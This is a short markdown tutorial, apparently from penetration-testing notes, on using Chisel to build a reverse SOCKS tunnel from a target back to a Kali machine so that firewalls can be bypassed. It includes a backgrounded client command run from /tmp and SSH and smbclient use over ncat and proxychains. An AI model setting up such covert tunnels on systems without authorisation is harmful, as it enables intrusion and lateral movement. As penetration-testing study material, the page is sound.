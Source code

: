 ### CHISEL

[Chisel](https://github.com/jpillora/chisel) is an HTTP tunnel that forwards all the network connection through the HTTP protocol. It can be used combined with SSH to provide a good way to bypass firewalls that allows only Web traffic. Chisel uses a client/server model and binds the connection to the SOCKS port on the kali machine.

First we start chisel `SERVER` executable. It can happen that the target doesn't have the chisel executable. In this case we must provide it first.

```shell
chisel server --port <LOCAL-PORT> --reverse
```

On the `CLIENT` we must bind the connection with the server. The R specifies SOCKS reverse tunneling that bounds on port 1080 on the kali machine by default (`ss -ntplu` to check the bind status)

```shell
/tmp/chisel client <KALI-IP>:<LOCAL-PORT> R:socks > /dev/null 2>&1 &
```

Now, on the server we can navigate through the chisel tunnel with HTTP connection. We specify the ProxyCommand option that is the SSH option to specify a SOCKS5 connection and we use ncat, a modified version of netcat that accepts a SOCKS5 connection.

```shell
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' user@<REMOTE-IP>
```

Alternately we can use proxychains bound on `127.0.0.1` on port `1080`. This is an example with smbclient.

```shell
proxychains smbclient -L \\<REMOTE-IP>
```